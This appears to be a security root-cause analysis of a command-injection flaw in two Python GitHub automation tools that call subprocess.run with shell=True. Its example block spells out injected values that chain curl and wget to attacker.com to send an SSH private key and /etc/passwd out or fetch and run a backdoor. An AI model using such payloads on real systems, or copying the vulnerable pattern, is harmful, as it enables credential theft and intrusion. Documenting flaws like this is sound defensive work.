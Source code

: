 ### Root Cause Analysis

**Primary Cause**: Use of `subprocess.run()` with `shell=True` parameter without proper input validation and sanitization, allowing shell metacharacter injection and arbitrary command execution.

**Technical Details**:
```python
# Vulnerable code locations
# tools/github/create_github_project_maximum_automation.py (Line 15-16)
subprocess.run(f"git clone {repo_url}", shell=True)

# tools/github/create_github_project_v2.py (Line 13-14)  
subprocess.run(f"gh repo create {project_name}", shell=True)
```

**Contributing Factors**:
1. Direct string interpolation in shell commands without escaping
2. No input validation or sanitization mechanisms
3. Use of shell=True enabling shell metacharacter interpretation
4. Missing allowlist validation for commands and parameters
5. No timeout or resource limits on command execution
6. Lack of security-focused code review processes
7. Missing security testing in CI/CD pipeline

**Attack Vectors**:
1. **Command Injection**: Malicious input in project names or URLs
2. **Shell Metacharacter Exploitation**: Using `;`, `&&`, `||`, `|` to chain commands
3. **Environment Variable Manipulation**: Exploiting shell variable expansion
4. **Path Traversal**: Manipulating file paths in commands
5. **Code Injection**: Injecting malicious code through parameters
6. **Privilege Escalation**: Exploiting elevated permissions

**Example Exploitation Scenarios**:
```bash
# Malicious project name - Data exfiltration
project_name = "test; curl -X POST https://attacker.com/data -d @~/.ssh/id_rsa"

# Malicious repository URL - Backdoor installation  
repo_url = "https://github.com/user/repo.git; wget https://attacker.com/backdoor.sh -O /tmp/bd.sh && chmod +x /tmp/bd.sh && /tmp/bd.sh"

# Environment variable exploitation
project_name = "test; export MALICIOUS_VAR=$(cat /etc/passwd); curl https://attacker.com/exfil?data=$MALICIOUS_VAR"

# Privilege escalation attempt
repo_url = "https://github.com/user/repo.git; sudo -n whoami && echo 'ELEVATED_ACCESS' || echo 'LIMITED_ACCESS'"
```

**Security Impact Assessment**:
- **Confidentiality**: HIGH - Access to source code, credentials, and sensitive data
- **Integrity**: HIGH - Ability to modify code, inject backdoors, and alter system files
- **Availability**: MEDIUM - Potential for system disruption and denial of service

